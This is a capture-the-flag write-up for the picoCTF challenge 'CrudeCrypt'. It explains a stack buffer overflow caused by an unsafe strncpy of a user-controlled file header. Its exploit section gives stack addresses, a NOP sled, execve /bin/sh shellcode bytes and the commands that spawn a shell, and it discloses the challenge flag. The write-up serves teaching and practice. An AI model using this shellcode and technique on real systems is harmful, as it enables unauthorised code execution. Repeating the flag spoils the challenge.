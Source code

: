 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Challenge**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

What main does:
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

What decrypt_file does:
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function works correctly)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- (print error message if hostname doesn't match)
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

What check_hostname does:
- unsafe strncpy from header->host to buffer of size 32
- call safe_gethostname
- return after calling strcmp

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

##### Testing the exploit:
```bash
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ #<use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the host variable is located at `0xffffd5c0` and the return address is located at `0xffffd60c`. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to `0xffffd64c`. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s). For fault tolerance, I will also be repeating the sled address 8 times, because teh return address is located 4 bytes from where the data starts.

##### The structure of the exploit data will be:
`(sled address)*8 + (\x90)*128 + shellcode`

##### Shellcode:
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

##### Executing the exploit:
```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

Note:  
If you're having trouble with landing on the nop sled, you can push it around by changing the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled. I just got lucked that it worked right away, but I had trouble running it my tmp directory.

*****

REFERENCES:
http://codewiki.wikidot.com/c:struct-stat
http://linux.die.net/man/2/fstat
http://mcrypt.hellug.gr/lib/mcrypt.3.html
